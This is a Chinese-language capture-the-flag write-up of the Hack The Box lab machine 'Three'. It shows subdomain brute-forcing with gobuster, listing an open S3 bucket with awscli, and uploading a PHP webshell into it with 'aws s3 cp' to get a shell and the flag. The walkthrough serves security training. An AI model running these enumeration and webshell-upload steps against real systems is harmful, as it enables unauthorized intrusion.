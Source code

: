 # 7x13 HTB系列——[Three]aws s3子域名接管漏洞

## 一、信息收集

1. 启动靶机，获取目标IP

   ![1.png](img/HTB/Three/1.png)

2. 扫描端口，发现开放有22、80端口

   ![2.png](img/HTB/Three/2.png)

3. 识别80端口的web服务信息，发现web组件为Apache 2.4.29，系统为Ubuntu

   ![3.png](img/HTB/Three/3.png)

   ![4.png](img/HTB/Three/4.png)

   ![5.png](img/HTB/Three/5.png)

4. 在网页CONTACT中发现存在一个邮箱mail@thetoppers.htb，猜测thetoppers.htb可能时目标网站的域名，修改kali的host文件，将thetoppers.htb强制解析IP为10.129.214.172，然后访问域名

   ![6.png](img/HTB/Three/6.png)

5. 页面没有什么东西，利用gobuster爆破子域名发现存在一个s3的子域名

   ``` shell
   gobuster vhost -w /home/kali/SafeTools/OneForAll/data/subnames_next.txt -u http://thetoppers.htb --append-domain=true
   #vhost 虚拟机主机模式
   # -w 指定字典
   # -u 目标域名
   # --append-domain 子域名爆破，默认为false，需要改为true，否则不会爆破子域名
   ```

   ![7.png](img/HTB/Three/7.png)

6. 修改host文件绑定s3子域名解析，访问s3子域名，发现页面显示{"status": "running"}

   ![8.png](img/HTB/Three/8.png)

7. 谷歌搜索s3 subdomain status running，发现关键信息Amazon S3 console，继续搜索AWS S3子域名漏洞，发现存在AWS S3子域名接管漏洞的信息

   ![9.png](img/HTB/Three/9.png)
   ![10.png](img/HTB/Three/10.png)

   ![10-1.png](img/HTB/Three/10-1.png)

## 二、getshell

1. 使用aws s3子域名接管漏洞的工具awscli进行测试

   - 安装awscli

     ```shell 
     sudo apt -y install awscli
     ```

   - 配置awscli，提示的key、name这些随便填

     ```shell
     aws configure
     ```

     ![11.png](img/HTB/Three/11.png)

   - 测试aws s3，发现能够执行ls命令探测服务器上的资源文件，网站编程语言为php

     ```shell
     aws --endpoint=http://s3.thetoppers.htb s3 ls
     aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
     ```

     ![12.png](img/HTB/Three/12.png)

2. 尝试写入shell

   ``` shell
   aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb
   ```

   ![13.png](img/HTB/Three/13.png)

3. 成功写入shell

   ![14.png](img/HTB/Three/14.png)

4. 直接写入一个webshell

   ![15.png](img/HTB/Three/15.png)

5. 用蚁剑连接，成功获取到flag
   ![16.png](img/HTB/Three/16.png)